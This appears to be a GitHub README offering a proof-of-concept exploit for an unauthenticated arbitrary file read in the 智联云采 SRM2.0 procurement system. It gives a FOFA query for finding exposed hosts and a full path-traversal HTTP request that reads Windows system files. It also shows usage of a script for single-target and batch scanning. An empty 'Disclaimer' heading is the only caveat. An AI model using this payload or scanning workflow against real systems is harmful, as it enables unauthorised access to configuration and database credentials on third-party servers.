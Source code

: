 ### README.md
#智联云采SRM2.0-任意文件读取
## Disclaimer

#智联云采 SRM2.0 runtimeLog/download 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

fofa语法：
title=="SRM 2.0"

#POC：

GET /adpweb/static/%2e%2e;/a/sys/runtimeLog/download?path=c:\\windows\win.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive

#how to use
python cve.py -h 

#批量检测
url.txt 的url地址要http://或https://
python cve.py -f  url.txt 

#单个检测
url地址要http://或https://
python cve.py -u url